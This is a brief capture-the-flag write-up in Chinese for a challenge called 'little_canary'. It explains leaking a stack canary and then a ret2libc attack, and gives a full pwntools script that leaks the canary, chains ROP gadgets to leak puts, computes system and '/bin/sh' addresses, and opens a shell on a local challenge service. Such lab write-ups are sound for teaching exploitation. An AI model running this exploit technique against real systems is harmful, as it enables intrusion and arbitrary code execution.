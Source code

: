 

## little_canary

libc+canary，canary是栈溢出保护，将低位的0覆盖即可leak出来

后续就是传统的libc步骤，只不过每次把canary加上就好。

```py
from pwn import *

parent_path = "/home/user/temp/"
context(os="linux", arch="amd64") 
sh = remote("localhost", 33991)
pwn = ELF(parent_path + "pwn")

pop_rdi = 0x401343
main = pwn.symbols['main']
puts_plt = pwn.plt['puts']
puts_got = pwn.got['puts']
ret = 0x40101a
pad = b'a' * 0x48  
sh.sendline(pad)

sleep(2)
sh.recvuntil(b'a' * 0x48)
canary = u64(sh.recv(8)) - 0xa 
print(hex(canary))

pad = b'a' * 0x48 + p64(canary) + p64(0x1) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
sh.recv()
sh.sendline(pad)
puts_addr = u64(sh.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
print(hex(puts_addr))
system_addr = puts_addr - 0x32190 
binsh_addr = puts_addr + 0x13019d
sleep(2)
sh.sendline(b'0') 
sleep(2)

pad = b'a' * 0x48 + p64(canary) + p64(0x1) + p64(ret) + p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)
sh.sendline(pad)
sh.interactive()
```

